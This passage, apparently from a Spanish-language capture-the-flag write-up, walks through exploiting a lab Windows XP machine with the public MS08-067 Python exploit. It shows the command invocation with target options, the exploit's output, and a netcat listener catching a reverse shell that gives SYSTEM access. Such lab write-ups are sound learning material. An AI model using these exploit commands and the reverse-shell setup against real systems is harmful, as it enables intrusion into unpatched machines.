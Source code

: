 ```
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)

```
<br>
3- Ejecutamos el script, pasándole los parámetros correspondientes, en este caso el `os=6` y `port=445`.

```ruby
❯ python2 ms08_067_2018.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
#     into this source file.
#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish

```
<br>

4- Comprobamos la correcta obtención de la reverse shell.

```ruby
❯ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.4] 1032
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
5- ¡Somos nt authority\system! Perfecto ya podemos visualizar las flags.

## FLAGS
